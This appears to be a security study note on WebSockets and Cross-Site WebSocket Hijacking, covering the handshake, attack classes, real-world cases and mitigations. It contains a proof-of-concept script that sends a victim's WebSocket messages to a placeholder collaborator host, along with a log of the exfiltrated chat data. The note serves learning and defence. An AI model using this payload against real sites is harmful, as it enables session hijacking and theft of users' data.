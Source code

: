 ```yaml
---
aliases:
  - CSWSH
  - Cross-Site WebSocket Hijacking
---
```


>[!question] What are WebSockets?
>WebSockets are a bi-directional, full duplex communications protocol initiated over HTTP. They are commonly used in modern web applications for streaming data and other asynchronous traffic.

# WebSockets 101

WebSocket connections are initiated over HTTP and are typically long-lived. Messages can be sent in either direction at any time and are not transactional in nature. The connection will normally stay open and idle until either the client or the server is ready to send a message.

WebSockets are particularly useful in situations where low-latency or server-initiated messages are required, such as real-time feeds of financial data.

>[!tip] Tooling for testing WebSockets
>- [SocketSleuth](https://github.com/snyk/socketsleuth/) [^note]

[^note]:[Start free - SocketSleuth Improving Security Testing for WebSocket Applications Snyk](../../Readwise/Articles/Start%20free%20-%20SocketSleuth%20Improving%20Security%20Testing%20for%20WebSocket%20Applications%20Snyk.md#^af3f13)
## Establishing connections

Protocols to open WebSocket:
- `wss://normal-website.com/chat`: WebSocket over TLS
- `ws://normal-website.com/chat`: clear-text WebSocket

To establish the connection, the browser and server perform a WebSocket handshake over HTTP:

```http
GET /chat HTTP/1.1
Host: normal-website.com
Sec-WebSocket-Version: 13
Sec-WebSocket-Key: wDqumtseNBJdhkihL6PW7w==
Connection: keep-alive, Upgrade
Cookie: session=KOsEJNuflw4Rd9BDNrVmvwBF9rEijeE2
Upgrade: websocket
```

If the server accepts the connection, it returns a WebSocket handshake response like the following:

```http
HTTP/1.1 101 Switching Protocols
Connection: Upgrade
Upgrade: websocket
Sec-WebSocket-Accept: 0FFP+2nmNIf/h+4BP36k9uzrYGk=
```

At this point, the network connection remains open and can be used to send WebSocket messages in either direction.

>[!note]
>WebSocket messages can contain any content or data format, although in modern web application the JSON format is the most used 

# General attacks

In principle, practically any web security vulnerability might arise in relation to WebSockets:

- User-supplied input transmitted to the server might be processed in unsafe ways, leading to vulnerabilities such as [SQL Injection](SQL%20Injection.md) or [XML External Entity Injection (XXE Injection)](XML%20External%20Entity%20Injection%20(XXE%20Injection).md)
- Some blind vulnerabilities reached via WebSockets might only be detectable using [out-of-band (OAST) techniques](https://portswigger.net/blog/oast-out-of-band-application-security-testing).
- If attacker-controlled data is transmitted via WebSockets to other application users, then it might lead to [Cross-Site Scripting (XSS)](Cross-Site%20Scripting%20(XSS).md) or other [Client side vulnerabilities](../Services/HTTP%20&%20HTTPS.md#Client%20side%20vulnerabilities)
- Manipulating the WebSocket handshake to exploit vulnerabilities
- Using cross-site WebSockets hijacking (CSWSH)

## Cross-site WebSockets hijacking (CSWSH)

 Cross-site WebSockets hijacking is a [Cross-Site Request Forgery (CSRF)](Cross-Site%20Request%20Forgery%20(CSRF).md) vulnerability on a WebSocket handshake. It arises when the WebSocket handshake request relies solely on HTTP cookies for session handling and does not contain any CSRF tokens or other unpredictable values. 
 
 Unlike regular CSRF, the attacker gains **two-way interaction** with the compromised application. What happens next in the attack depends entirely on the application's logic and how it is using [WebSockets](https://portswigger.net/web-security/websockets). The attack might involve: 
- Sending WebSocket messages to perform unauthorized actions on behalf of the victim user.
- Sending WebSocket messages to retrieve sensitive data.
- Sometimes, just waiting for incoming messages to arrive containing sensitive data.


>[!example]
>PoC hosted on the attacker server performing the CSRF and leaking the received information using ws

```html
<script>
    var ws = new WebSocket('wss://your-websocket-url');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://your-collaborator-url', {method: 'POST', mode: 'no-cors', body: event.data});
    };
</script>
```
 Data exfiltrated from the victim ws:
```http
...
10.0.4.85       2023-01-06 21:24:17 +0000 "GET /exploit/ HTTP/1.1" 200 "User-Agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.124 Safari/537.36"
10.0.4.85       2023-01-06 21:24:18 +0000 "GET /log?a={%22user%22:%22Hal%20Pline%22,%22content%22:%22Hello,%20how%20can%20I%20help?%22} HTTP/1.1" 200 "User-Agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.124 Safari/537.36"
10.0.4.85       2023-01-06 21:24:18 +0000 "GET /log?a={%22user%22:%22You%22,%22content%22:%22I%20forgot%20my%20password%22} HTTP/1.1" 200 "User-Agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.124 Safari/537.36"
10.0.4.85       2023-01-06 21:24:18 +0000 "GET /log?a={%22user%22:%22CONNECTED%22,%22content%22:%22--%20Now%20chatting%20with%20Hal%20Pline%20--%22} HTTP/1.1" 200 "User-Agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.124 Safari/537.36"
10.0.4.85       2023-01-06 21:24:18 +0000 "GET /log?a={%22user%22:%22You%22,%22content%22:%22Thanks,%20I%20hope%20this%20doesn&apos;t%20come%20back%20to%20bite%20me!%22} HTTP/1.1" 200 "User-Agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.124 Safari/537.36"
10.0.4.85       2023-01-06 21:24:18 +0000 "GET /log?a={%22user%22:%22Hal%20Pline%22,%22content%22:%22No%20problem%20carlos,%20it&apos;s%20qhakj7ncjna6l17u20as%22} HTTP/1.1" 200 "User-Agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.124 Safari/537.36"
|...
```

This vulnerability was used against Gitpod to leak environment data and obtain SSH keys, bypassing [SameSite attribute on cookies](SameSite%20Cookie%20Attribute.md#SameSite%20101) , finally escalating to RCE. [^gitpod]
The same vulnerability was also used to get RCE against MeshCentral [^meshcentral-cswsh].

## Mitigations

[Cross-Site WebSocket Hijacking Exploitation in 2025](../../Readwise/Articles/Laurence%20Tennant%20-%20Cross-Site%20WebSocket%20Hijacking%20Exploitation%20in%202025.md) is much harder then before.

Three main [mitigations](../../Readwise/Articles/Laurence%20Tennant%20-%20Cross-Site%20WebSocket%20Hijacking%20Exploitation%20in%202025.md#Mitigations):
- [SameSite=Lax by default](../../Readwise/Articles/Laurence%20Tennant%20-%20Cross-Site%20WebSocket%20Hijacking%20Exploitation%20in%202025.md#SameSite=Lax%20by%20default)
- [Total Cookie Protection](../../Readwise/Articles/Laurence%20Tennant%20-%20Cross-Site%20WebSocket%20Hijacking%20Exploitation%20in%202025.md#Total%20Cookie%20Protection)
- [Private Network Access](../../Readwise/Articles/Laurence%20Tennant%20-%20Cross-Site%20WebSocket%20Hijacking%20Exploitation%20in%202025.md#Private%20Network%20Access)



[^gitpod]: [Gitpod remote code execution 0-day vulnerability via WebSockets](https://snyk.io/blog/gitpod-remote-code-execution-vulnerability-websockets/), snyk.io
[^meshcentral-cswsh]: [MeshCentral Cross-Site Websocket Hijacking Vulnerability (CVE-2024-26135)](https://www.praetorian.com/blog/meshcentral-cross-site-websocket-hijacking-vulnerability/), praetorian.com